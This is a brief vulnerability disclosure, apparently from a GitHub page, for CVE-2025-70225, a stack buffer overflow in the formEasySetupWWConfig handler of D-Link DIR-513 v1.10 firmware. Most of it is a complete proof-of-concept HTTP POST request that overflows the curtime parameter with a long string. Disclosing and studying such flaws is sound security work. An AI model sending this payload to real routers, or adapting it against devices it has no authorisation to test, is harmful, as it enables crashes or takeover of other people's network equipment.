



# CVE-2025-70225 漏洞信息

## 基础信息
- **CVE编号**: CVE-2025-70225
- **影响组件**: goform/formEasySetupWWConfig
- **固件版本**: D-Link DIR-513 v1.10（DIR513A1_FW110WWb01）

## 漏洞详情





goform/formEasySetupWWConfig

Stack buffer overflow vulnerability in D-Link DIR-513 v1.10 via the curtime parameter to goform/formEasySetupWWConfig.

curtime=>var=>sprintf

poc:

```
POST /goform/formEasySetupWWConfig   HTTP/1.1
Host: 127.0.0.1
Content-Length: 327
Cache-Control: max-age=0
sec-ch-ua: "Not=A?Brand";v="24", "Chromium";v="140"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/index.asp?t=1766295676889
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

curtime=1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```


